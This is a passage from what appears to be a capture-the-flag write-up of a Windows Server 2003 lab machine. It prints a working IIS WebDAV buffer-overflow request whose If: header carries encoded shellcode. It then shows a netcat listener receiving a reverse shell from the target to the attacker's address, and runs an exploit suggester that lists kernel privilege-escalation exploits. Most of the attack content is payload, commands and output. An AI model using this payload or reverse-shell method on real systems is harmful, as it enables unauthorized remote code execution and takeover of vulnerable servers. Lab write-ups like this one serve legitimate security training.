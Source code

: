 ```
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.15: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.15] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

Nice, it works ! But we are not "nt authority\ system". Let's run windows-exploit-suggester.py ([https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)) to see if there if known exploits !

On the machine I run the following command and copy/paste the results into a file over my machine :

```
systeminfo
```

Update the tool :

```
python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-07-25-mssb.xls
[*] done
```

Then run it with the newly created database and the systeminfo file :

```
python windows-exploit-suggester.py --database 2020-07-25-mssb.xls --systeminfo systeinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
```